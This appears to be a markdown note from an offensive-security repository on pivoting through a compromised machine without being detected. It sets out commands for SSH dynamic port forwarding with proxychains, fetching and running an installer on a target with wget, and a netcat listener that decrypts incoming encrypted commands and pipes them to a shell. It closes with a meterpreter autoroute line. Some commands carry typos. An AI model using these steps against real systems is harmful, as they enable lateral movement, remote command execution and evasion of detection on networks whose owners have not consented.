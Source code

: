 # pivoting

This focuses on pivoting undected (or at least, if you are detected, not much info can be derived from the traffic).

## tools

- [sshproxy](https://github.com/montysecurity/sshproxy)
- [cryptshell](https://github.com/montysecurity/cryptshell)

## ssh dynamic ports (scenario)

There are 3 boxes in the network, all \*nix machines. One is your attack box, the second is a box you have pwned and the third is a box you want to pwn, but you are at a delima. How do you route your traffic from the attack box, through the pwned box, to the target box?

You will need proxychains installed on the attack box and a working ssh account on the pwned box.

	On Pwned Box
		ssh -D 0.0.0.0:1337 user@localhost
	
	On Attack Box
		ssh -Nnt -D 0.0.0.0:1337 user@pwnedbox
		enter the password
		wait for the connection to establish, nothing prints to STDOUT or STDERR
		press CTRL+Z, this puts the connection in the background, you should be back at the attack box terminal
		verify the connection is still there: netstat -pan | grep 1337
		add the following line to the end of /etc/proxychains.conf: socks4 pwnedbox 1337
		prepend tool commmands with "proxychains ", in this case, proxychains nmap targetbox

### what this is actually doing...

Whenever you run the first ssh command, you are setting up a listener on pwnedbox:1337 using the "user" account, so if a ssh key is involved, remember to use -i. Pushing it to the background is so you can now have access to your tools on the attack box again. When you edit the proxychains file, you are telling the system, "any traffic ran with proxychains activated is to be forced through pwnedbox:1337 (travelling either way)". Then prepending proxychains to the commands is simply invoking the proxy

### diagrams are nice

- Attack Box --> [proxychains] --> [ssh bind on pwnedbox] --> targetbox
- Attack Box <-- [proxychains] <-- [ssh bind on pwnedbox] <-- targetbox

## aescrypt

You can encrypt commands with aescrypt pre-transit, it is easiest to do it with aescrypt and then decrypt them once they get to the traget and pipe to shell. Aescrypt commands can be swapped out with "base64" and "base64 -d" respectively if the target does not have aescrypt but this is encoding and not encryption - it is a quick and easy solution and should only be used to properly transmit the cipher text, not evading detection.

### if target does not have aescrypt

If the target does not have aescrypt, the following are shell commands to get it installed on \*nix machines

#### 32 bit

	wget https://www.aescrypt.com/download/v3/linux/AESCrypt-GUI-3.11-Linux-x86-Install.gz 
	gunzip AESCrypt-GUI-3.11-Linux-x86-Install.gz
	chmod +x AESCrypt-GUI-3.11-Linux-x86-Install 
	./AESCrypt-GUI-3.11-Linux-x86-Install
	rm AESCrypt-GUI-3.11-Linux-x86-Install

#### 64 bit
	
	wget https://www.aescrypt.com/download/v3/linux/AESCrypt-GUI-3.11-Linux-x86_64-Install.gz 
	gunzip AESCrypt-GUI-3.11-Linux-x86_64-Install.gz 
	chmod +x AESCrypt-GUI-3.11-Linux-x86_64-Install 
	./AESCrypt-GUI-3.11-Linux-x86_64-Install
	rm AESCrypt-GUI-3.11-Linux-x86_64-Install

### transfering shell commands via aescrypt

	On Target Box
		nc -lnvp targetPort > aescrypt.key
	On Attack Box
                aescrypt_keygen -g 64 aescrypt.key && nc targetBox targetPort < aescrypt.kkey
	On Target Box
		nc -lnvp targetPort | aescrypt -d -k aescrypt.key - | sh
	On Attack Box
		echo "bash commands" | aescrypt -e -k aescrypt.key - | nc targetBox tagetPort

## meterpreter

run post/multi/manage/autoroute
